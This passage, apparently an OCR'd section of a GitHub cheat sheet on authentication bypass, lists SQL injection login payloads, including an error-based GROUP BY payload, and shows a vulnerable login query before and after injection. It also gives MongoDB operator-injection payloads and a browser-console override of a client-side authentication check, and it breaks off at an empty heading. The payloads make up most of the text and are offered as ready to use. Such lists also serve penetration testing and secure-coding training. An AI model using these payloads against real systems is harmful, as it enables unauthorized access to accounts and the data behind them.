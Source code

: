 #### Advanced SQL Injection Bypasses

```sql
' OR 'x'='x
' OR 0=0 --
' OR 1=1 LIMIT 1 --
'OR 1 GROUP BY CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2)) HAVING MIN(0) OR 1-- -
") OR ("a"="a
") OR ("1"="1
") OR 1 -- -
```

#### Common Vulnerable Login Query Patterns

```sql
-- Vulnerable query
SELECT * FROM users WHERE username='$username' AND password='$password'

-- After injection with ' OR '1'='1' --
SELECT * FROM users WHERE username='' OR '1'='1' -- ' AND password='anything'
```

### 3. NoSQL Injection Bypasses

#### MongoDB Authentication Bypass

```javascript
// Vulnerable query
db.users.find({username: username, password: password});

// Injection payloads (for POST/GET parameters)
username[$ne]=admin&password[$ne]=
username=admin&password[$regex]=.*
username=admin&password[$exists]=false
username[$in][]=admin&password[$ne]=badpass
{"username": {"$ne": null}, "password": {"$ne": null}}
```

### 4. Authentication Logic Flaws

#### Client-Side Authentication Bypass

```javascript
// Removing client-side validation
// Original check in JavaScript
if (isAuthenticated()) {
  // Show protected content
}

// Bypass by modifying the function in browser console
function isAuthenticated() { return true; }
```

#### Multi-Step Authentication Bypass
